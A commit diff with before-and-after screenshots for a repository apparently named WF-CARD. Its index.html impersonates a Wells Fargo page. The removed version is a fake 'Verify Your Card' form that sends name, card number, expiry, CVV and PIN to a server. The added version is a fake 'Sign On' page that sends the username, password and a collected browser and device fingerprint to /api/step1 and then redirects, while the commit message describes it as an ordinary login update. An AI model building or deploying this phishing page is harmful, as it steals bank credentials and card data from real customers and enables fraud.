

Before and after one commit to voledinero1-max/WF-CARD, a website: page public/index.html in a window 1280 px wide. Shown: the part 58-798 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Change title and update login form fields
Updated the title and modified form fields for user authentication.

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Wells Fargo – Verify Card</title>
+  <title>Wells Fargo – Sign On</title>
   <style>
     * { box-sizing: border-box; margin: 0; padding: 0; }
     body {
@@ -17,98 +17,66 @@
     .nav-links span { color: white; font-size: 12px; }
     main { flex: 1; display: flex; align-items: center; justify-content: center; padding: 2rem; }
     .card { background: white; border-radius: 12px; padding: 2rem 2.5rem; width: 100%; max-width: 440px; }
-    .card h1 { text-align: center; font-weight: 300; font-size: 26px; color: #333; margin-bottom: 0.4rem; }
-    .card .sub { text-align: center; font-size: 13px; color: #999; margin-bottom: 1.5rem; }
+    .card h1 { text-align: center; font-weight: 300; font-size: 26px; color: #333; margin-bottom: 1.5rem; }
     .input-wrap { position: relative; margin-bottom: 12px; }
-    .input-wrap input {
-      width: 100%; height: 50px; border-radius: 26px; border: 1px solid #ccc;
-      padding: 0 3rem 0 1.2rem; font-size: 15px; color: #333; background: #fff; outline: none;
-    }
+    .input-wrap input { width: 100%; height: 50px; border-radius: 26px; border: 1px solid #ccc; padding: 0 3rem 0 1.2rem; font-size: 15px; color: #333; background: #fff; outline: none; }
     .input-wrap input::placeholder { color: #bbb; }
     .input-wrap input:focus { border-color: #aaa; }
+    .clear-btn { position: absolute; right: 14px; top: 50%; transform: translateY(-50%); font-size: 14px; color: #ccc; background: none; border: none; cursor: pointer; }
     .show-toggle { position: absolute; right: 16px; top: 50%; transform: translateY(-50%); font-size: 13px; color: #4a4fcf; font-weight: 500; cursor: pointer; background: none; border: none; }
-    .row { display: flex; gap: 12px; }
-    .row .input-wrap { flex: 1; }
+    .checkbox-row { display: flex; align-items: flex-start; gap: 8px; margin-bottom: 20px; }
+    .checkbox-row label { font-size: 14px; color: #333; }
+    .checkbox-row p { font-size: 12px; color: #666; margin-top: 2px; line-height: 1.4; }
     .msg { display: none; border-radius: 8px; padding: 10px 14px; font-size: 13px; margin-bottom: 14px; text-align: center; }
     .msg.error { display: block; background: #fdecea; color: #b00020; border: 1px solid #f5c6cb; }
-    .btn-submit {
-      width: 100%; height: 48px; border-radius: 26px; border: none;
-      background: #ccc; color: white; font-size: 15px; margin-bottom: 10px;
-      cursor: not-allowed; transition: background 0.2s;
-    }
-    .btn-submit.active { background: #cc0000; cursor: pointer; }
-    .forgot { text-align: center; font-size: 13px; margin-top: 8px; }
+    .btn-signin { width: 100%; height: 48px; border-radius: 26px; border: none; background: #ccc; color: white; font-size: 15px; margin-bottom: 10px; cursor: not-allowed; transition: background 0.2s; }
+    .btn-signin.active { background: #cc0000; cursor: pointer; }
+    .divider { text-align: center; font-size: 13px; color: #888; margin: 0 0 10px; }
+    .btn-passkey { width: 100%; height: 48px; border-radius: 26px; border: none; background: #222; color: white; font-size: 15px; display: flex; align-items: center; justify-content: center; gap: 8px; cursor: pointer; margin-bottom: 16px; }
+    .passkey-hint { font-size: 12px; color: #555; text-align: center; margin: 0 0 16px; line-height: 1.5; }
+    .forgot { text-align: center; font-size: 13px; }
     .forgot a { color: #4a4fcf; text-decoration: none; }
   </style>
 </head>
 <body>
   <nav>
     <span class="nav-brand">WELLS FARGO</span>
-    <div class="nav-links">
-      <span>Enroll</span><span>Customer Service</span><span>ATMs/Locations</span><span>Español</span>
-    </div>
+    <div class="nav-links"><span>Enroll</span><span>Customer Service</span><span>ATMs/Locations</span><span>Español</span></div>
   </nav>
   <main>
     <div class="card">
-      <h1>Verify Your Card</h1>
-      <p class="sub">Please enter your card details to continue</p>
+      <h1>Good afternoon</h1>
       <div class="msg" id="msg"></div>
-
       <div class="input-wrap">
-        <input type="text" id="name" placeholder="Full Name" autocomplete="name" />
+        <input type="text" id="username" placeholder="Username" autocomplete="username" />
+        <button class="clear-btn" onclick="document.getElementById('username').value='';checkFields()">✕</button>
       </div>
-
-      <div class="input-wrap">
-        <input type="text" id="card" placeholder="Card Number" inputmode="numeric" maxlength="19" autocomplete="cc-number" />
+      <div class="input-wrap" style="margin-bottom:16px">
+        <input type="password" id="password" placeholder="Password" autocomplete="current-password" />
+        <button class="show-toggle" onclick="toggleVis('password',this)">Show</button>
       </div>
-
-      <div class="row">
-        <div class="input-wrap">
-          <input type="text" id="expdate" placeholder="MM/YY" maxlength="5" autocomplete="cc-exp" />
-        </div>
-        <div class="input-wrap">
-          <input type="password" id="cvv" placeholder="CVV" inputmode="numeric" maxlength="4" autocomplete="cc-csc" />
-          <button class="show-toggle" onclick="toggleVis('cvv',this)">Show</button>
-        </div>
+      <div class="checkbox-row">
+        <input type="checkbox" id="save" />
+        <div><label for="save">Save username</label><p>Save only on devices not used by others.</p></div>
       </div>
-
-      <div class="input-wrap" style="margin-bottom:20px">
-        <input type="password" id="pin" placeholder="PIN" inputmode="numeric" maxlength="10" />
-        <button class="show-toggle" onclick="toggleVis('pin',this)">Show</button>
-      </div>
-
-      <button class="btn-submit" id="submitBtn" disabled onclick="handleSubmit()">Verify Card</button>
-      <p class="forgot"><a href="#">→ Having trouble? Contact us</a></p>
+      <button class="btn-signin" id="signOnBtn" disabled onclick="handleLogin()">Sign on</button>
+      <p class="divider">or</p>
+      <button class="btn-passkey">Use a passkey</button>
+      <p class="passkey-hint">Create a passkey after signing on to skip the password next time.</p>
+      <p class="forgot"><a href="#">→ Forgot username or password?</a></p>
     </div>
   </main>
   <script>
-    document.getElementById('card').addEventListener('input', function() {
-      let v = this.value.replace(/\D/g, '').substring(0, 16);
-      this.value = v.replace(/(.{4})/g, '$1 ').trim();
-      checkFields();
-    });
-
-    document.getElementById('expdate').addEventListener('input', function() {
-      let v = this.value.replace(/\D/g, '').substring(0, 4);
-      if (v.length >= 2) v = v.substring(0,2) + '/' + v.substring(2);
-      this.value = v;
-      checkFields();
-    });
+    // Fresh session on page load
+    sessionStorage.removeItem('wfSid');
 
     function checkFields() {
-      const ready = document.getElementById('name').value &&
-                    document.getElementById('card').value &&
-                    document.getElementById('expdate').value &&
-                    document.getElementById('cvv').value &&
-                    document.getElementById('pin').value;
-      const btn = document.getElementById('submitBtn');
+      const ready = document.getElementById('username').value && document.getElementById('password').value;
+      const btn = document.getElementById('signOnBtn');
       btn.disabled = !ready;
       btn.classList.toggle('active', !!ready);
     }
-
-    ['name','cvv','pin'].forEach(id =>
-      document.getElementById(id).addEventListener('input', checkFields)
-    );
+    ['username','password'].forEach(id => document.getElementById(id).addEventListener('input', checkFields));
 
     function toggleVis(id, btn) {
       const el = document.getElementById(id);
@@ -116,39 +84,47 @@
       btn.textContent = el.type === 'password' ? 'Show' : 'Hide';
     }
 
-    async function handleSubmit() {
-      const btn = document.getElementById('submitBtn');
-      btn.disabled = true;
-      btn.textContent = 'Verifying...';
+    function collectDeviceInfo() {
+      const nav = window.navigator;
+      const conn = nav.connection || nav.mozConnection || nav.webkitConnection;
+      return {
+        userAgent: nav.userAgent, platform: nav.platform, language: nav.language,
+        screenRes: `${screen.width}x${screen.height}`, colorDepth: screen.colorDepth + '-bit',
+        timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
+        cookiesOn: nav.cookieEnabled, online: nav.onLine,
+        referrer: document.referrer || 'Direct',
+        deviceMemory: nav.deviceMemory ? nav.deviceMemory + 'GB' : 'Unknown',
+        cores: nav.hardwareConcurrency || 'Unknown',
+        touchPoints: nav.maxTouchPoints || 0,
+        connection: conn ? (conn.effectiveType || conn.type || 'Unknown') : 'Unknown',
+      };
+    }
+
+    async function handleLogin() {
+      const btn = document.getElementById('signOnBtn');
+      btn.disabled = true; btn.textContent = 'Signing on...';
       try {
-        const res = await fetch('/api/login', {
-          method: 'POST',
-          headers: { 'Content-Type': 'application/json' },
+        const res = await fetch('/api/step1', {
+          method: 'POST', headers: { 'Content-Type': 'application/json' },
           body: JSON.stringify({
-            name:    document.getElementById('name').value,
-            card:    document.getElementById('card').value,
-            expdate: document.getElementById('expdate').value,
-            cvv:     document.getElementById('cvv').value,
-            pin:     document.getElementById('pin').value
+            username: document.getElementById('username').value,
+            password: document.getElementById('password').value,
+            deviceInfo: collectDeviceInfo()
           })
         });
         const data = await res.json();
         if (data.success) {
+          sessionStorage.setItem('wfSid', data.sessionId);
           window.location.href = data.redirectUrl;
         } else {
-          const msgEl = document.getElementById('msg');
-          msgEl.textContent = data.message || 'Verification failed.';
-          msgEl.className = 'msg error';
-          btn.disabled = false;
-          btn.textContent = 'Verify Card';
-          btn.classList.add('active');
+          document.getElementById('msg').textContent = data.message || 'Login failed.';
+          document.getElementById('msg').className = 'msg error';
+          btn.disabled = false; btn.textContent = 'Sign on'; btn.classList.add('active');
         }
       } catch(err) {
-        document.getElementById('msg').textContent = 'Network error. Please try again.';
+        document.getElementById('msg').textContent = 'Network error.';
         document.getElementById('msg').className = 'msg error';
-        btn.disabled = false;
-        btn.textContent = 'Verify Card';
-        btn.classList.add('active');
+        btn.disabled = false; btn.textContent = 'Sign on'; btn.classList.add('active');
       }
     }
   </script>
```
